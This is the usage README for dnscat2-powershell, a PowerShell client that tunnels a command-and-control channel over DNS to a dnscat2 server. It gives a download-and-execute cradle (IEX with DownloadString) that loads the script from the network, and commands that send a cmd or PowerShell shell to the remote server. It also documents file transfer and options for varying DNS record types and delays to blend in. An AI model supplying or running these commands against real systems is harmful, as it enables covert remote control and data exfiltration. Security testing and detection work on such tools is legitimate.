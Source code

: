 [dnscat2](https://github.com/iagox86/dnscat2) is a DNS covert channel tool by [@iagox86 (Ron Bowes)](https://blog.skullsecurity.org/) which is used to transfer data over DNS requests.

This is a powershell version of the dnscat2 C client.

To use this script, you'll need the ruby [dnscat2 server](https://github.com/iagox86/dnscat2). **Make sure to add the `--no-cache` option when running the server. This client is incompatible with the server's caching.**

### Setup

[First, install the dnscat2 server.](https://github.com/iagox86/dnscat2/blob/master/README.md) Start the server with caching disabled using `--no-cache`. The command to start your server should look something like this: `ruby dnscat2.rb --dns="domain=example.com" --no-cache`

Next, launch Windows Powershell (version 2.0 or later). You can use this command to load the dnscat2 powershell functions:

    IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1')

### Examples

Start-Dnscat2 is the actual function used as the client. Specifiy the dnscat2 server using `-Domain`.

    Start a command session, and send DNS requests to 8.8.8.8 on port 53:
        Start-Dnscat2 -Domain <dnscat2 server> -DNSServer 8.8.8.8

    Send a cmd shell, and send DNS requests to the default DNS Server set in Windows:
        Start-Dnscat2 -Domain <dnscat2 server> -Exec cmd

    Start a console session. Only use CNAME, MX, and AAAA requests:
        Start-Dnscat2 -Domain <dnscat2 server> -LookupTypes @("CNAME","MX","AAAA") -Console

    Do not encrypt the session. Encryption is enabled by default.
        Start-Dnscat2 -Domain <dnscat2 server> -NoEncryption

### Powershell Command Session Commands

The client can handle normal dnscat2 commands, or the *powershell version* of that command. To use the powershell version of a command, set specific parameters the client will detect (These are commands run from a command session on the server):

    Start a new session which simulates a Powershell shell, like ExecPS:
        exec psh

    Upload app.exe on the server into a byte array stored in the $app powershell variable:
        upload app.exe bytes:$app
    
    Download the byte array stored in the $app powershell variable to app.exe on the server:
        download bytes:$app app.exe

### Start-Dnscat2

    -Domain <String>          The Domain being used by the dnscat2 server.
    -DNSServer <String>       The hostname or IP Address to send DNS queries to. (Default: Set by Windows)
    -DNSPort <Int32>          The port to send DNS queries to. (Default: 53)
    
    -Command                  Start a command session. (Default)
    -Exec <String>            Link the I/O of a process with the Dnscat2 session.
    -Console                  Link the I/O of the console with the Dnscat2 session.
    -ExecPS                   Simulate a Powershell session and link the IO with the Dnscat2 session.
                              WARNING: Exiting will kill the entire dnscat2 client, not just the session.
    
    -PreSharedSecret          Set the same secret on the server to authenticate and prevent MITM.
    -NoEncryption             Do not use encryption.
    
    -LookupTypes <String[]>   Set an array of lookup types to randomly switch between.
                              Only TXT, MX, CNAME, A, and AAAA records are supported. Default: @(TXT, MX, CNAME)
    -Delay <Int32>            Set a delay between each request, in milliseconds. (Default: 0)
    -MaxPacketSize <Int32>    Maximum length of a dnscat2 packet. (Default: 240)
    -Name <String>            The name of your dnscat2 session. (Default: hostname)

### ExecPS and 'exec psh'

dnscat2-powershell simulates a powershell session by passing data from the server to Invoke-Expression. Only stdout is returned, and variables are preserved as long as the client is running. **Watch out** for things that exit powershell like "exit" and "break", because the entire dnscat2-powershell client will exit, not just the ExecPS session.
